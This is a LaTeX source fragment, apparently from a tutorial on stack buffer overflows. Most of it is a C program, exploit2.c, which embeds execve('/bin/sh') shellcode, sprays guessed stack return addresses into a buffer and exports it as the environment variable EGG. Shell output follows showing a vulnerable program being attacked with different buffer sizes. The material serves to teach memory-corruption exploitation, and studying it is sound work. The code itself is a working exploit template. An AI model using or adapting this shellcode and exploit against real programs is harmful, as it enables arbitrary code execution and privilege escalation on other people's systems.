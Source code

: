 \documentclass[a4paper]{article}
\begin{document}
\begin{listing}[H]
\begin{verbatim}

#include <stdlib.h>
#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512

char shellcode[] =
	"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	"\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
	__asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
	char *buff, *ptr;
	long *addr_ptr, addr;
	int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
	int i;

	if (argc > 1) bsize  = atoi(argv[1]);
	if (argc > 2) offset = atoi(argv[2]);

	if (!(buff = malloc(bsize))) {
		printf("Can't allocate memory.\n");
		exit(0);
	}

	addr = get_sp() - offset;
	printf("Using address: 0x%x\n", addr);

	ptr = buff;
	addr_ptr = (long *) ptr;
	for (i = 0; i < bsize; i+=4)
	*(addr_ptr++) = addr;

	ptr += 4;
	for (i = 0; i < strlen(shellcode); i++)
	*(ptr++) = shellcode[i];

	buff[bsize - 1] = '\0';

	memcpy(buff,"EGG=",4);
	putenv(buff);
	system("/bin/bash");	
}

\end{verbatim}
\caption{exploit2.c}
\label{listing:1}
\end{listing}

Now we can try to guess what the buffer and offset should be:

\begin{lstlisting}[style=DOS]
./exploit2 500
$ Using address: 0xbffffdb4
\end{lstlisting}

\begin{lstlisting}[style=DOS]
$ ./vulnerable $EGG
exit
\end{lstlisting}

\begin{lstlisting}[style=DOS]
$ ./exploit2 600
Using address: 0xbffffdb4
\end{lstlisting}

\begin{lstlisting}[style=DOS]
$ ./vulnerable $EGG
Illegal instruction
$exit
\end{lstlisting}
\end{document}
